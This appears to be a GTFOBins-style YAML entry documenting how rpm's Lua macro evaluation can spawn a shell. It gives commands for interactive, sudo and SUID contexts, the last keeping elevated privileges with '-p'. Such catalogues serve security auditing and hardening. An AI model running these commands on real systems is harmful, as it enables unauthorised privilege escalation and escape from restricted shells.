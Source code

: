 ```yaml
---
functions:
  execute-interactive:
    - code: rpm --eval '%{lua:posix.exec("/bin/sh")}'
  sudo-enabled:
    - code: sudo rpm --eval '%{lua:posix.exec("/bin/sh")}'
  suid-enabled:
    - code: ./rpm --eval '%{lua:posix.exec("/bin/sh", "-p")}'
---
```

